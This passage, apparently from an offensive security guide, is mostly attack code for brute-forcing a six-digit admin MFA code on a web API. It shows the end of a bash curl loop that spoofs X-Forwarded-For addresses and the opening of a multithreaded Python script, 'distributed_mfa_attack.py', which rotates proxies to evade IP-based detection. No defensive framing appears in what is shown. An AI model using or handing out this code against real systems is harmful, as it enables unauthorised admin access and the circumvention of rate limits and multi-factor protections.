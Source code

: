 ```bash
  curl -s -X GET "${TARGET_API}/api/admin/dashboard" \
    -H "Authorization: Bearer ${TOKEN}" \
    -H "x-admin-mfa-code: $code" \
    -H "X-Forwarded-For: 192.168.1.$((RANDOM % 255))" \
    --max-time 2 | grep -q "dashboard" && {
      echo "SUCCESS: MFA Code = $code"
      exit 0
    }
done
```

**Step 4: Distributed MFA Attack (IP Rotation)**
```python
#!/usr/bin/env python3
# distributed_mfa_attack.py

import requests
import threading
import queue
import itertools
from concurrent.futures import ThreadPoolExecutor, as_completed

TARGET_API = "https://api.example.com"
TOKEN = "eyJhbGciOiJSUzI1NiIs..."
MAX_WORKERS = 100

# Proxy rotation to avoid IP-based detection
PROXIES = [
    {"http": "http://proxy1.com:8080", "https": "https://proxy1.com:8080"},
    {"http": "http://proxy2.com:8080", "https": "https://proxy2.com:8080"},
    # Add more proxies
]

def test_mfa_code(code, proxy):
    """Test a single MFA code"""
    headers = {
        "Authorization": f"Bearer {TOKEN}",
        "x-admin-mfa-code": code,
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"
    }
    
    try:
        response = requests.get(
            f"{TARGET_API}/api/admin/dashboard",
            headers=headers,
            proxies=proxy,
            timeout=5
        )
        
        if response.status_code == 200 or "dashboard" in response.text:
            print(f"\n[SUCCESS] MFA Code Found: {code}")
            print(f"Response: {response.text[:200]}")
            return True
            
    except Exception as e:
        pass
    
    return False

def main():
    print("Starting distributed MFA brute force attack...")
    
    # Generate all possible 6-digit codes
    code_queue = queue.Queue()
```